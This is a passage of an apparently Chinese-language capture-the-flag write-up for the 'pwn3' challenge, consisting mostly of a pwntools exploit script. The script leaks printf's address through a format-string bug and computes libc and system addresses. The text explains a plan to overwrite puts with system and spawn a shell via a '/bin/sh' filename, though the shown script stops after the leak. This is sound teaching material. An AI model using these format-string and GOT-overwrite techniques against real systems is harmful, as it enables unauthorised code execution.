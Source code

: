 ```python
pwn3 = ELF('./pwn3')
libc = pwn3.libc
libc.address = printf_addr - libc.symbols['printf'] #这里的printf_addr是泄露出的真实地址
system_addr = libc.symbols['system']
```

另外，这个思路很巧妙的一点在于，它将puts函数修改为system的同时，将最后put上去的文件名设置为`/bin/sh`,这样参数就直接有了。

exp如下：

```py
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
pwn3 = ELF('./pwn3')
sh = process('./pwn3')
libc = pwn3.libc

def get(name):
    sh.sendline(b'get')
    sh.recvuntil(b'enter the file name you want to get:')
    sh.sendline(name.encode())
    data = sh.recv()
    return data

def put(name, content):
    sh.sendline(b'put')
    sh.recvuntil(b'please enter the name of the file you want to upload:')
    sh.sendline(name.encode())
    sh.recvuntil(b'then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline(b'dir')

tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)

# password
def password():
    sh.recvuntil(b'Name (ftp.hacker.server:Rainism):')
    sh.sendline(name.encode())

# password
password()
# get the addr of printf
printf_got = pwn3.got['printf']
# 这里的文件名开头使用\x00作为隔断，使得最后执行dir时，不会出现/bin/sh1111这种情况
# 也可以这里不隔断，把/bin/sh文件名改为/bin/sh;
put('\x001111', b'%8$s' + p32(printf_got))
printf_addr = u32(get('\x001111')[:4])
success('printf addr : ' + hex(printf_addr))

# 我本地的libc应该是libc6_2.35-0ubuntu3.4_i386
# 但是用puts地址去找的话，LibcSearcher找不到,所以这里使用printf地址去找
# get addr of system
# libc = LibcSearcher("printf", printf_addr)
# system_offset = libc.dump('system')
# printf_offset = libc.dump('printf')
# system_addr = printf_addr - printf_offset + system_offset
# log.success('system addr : ' + hex(system_addr))
```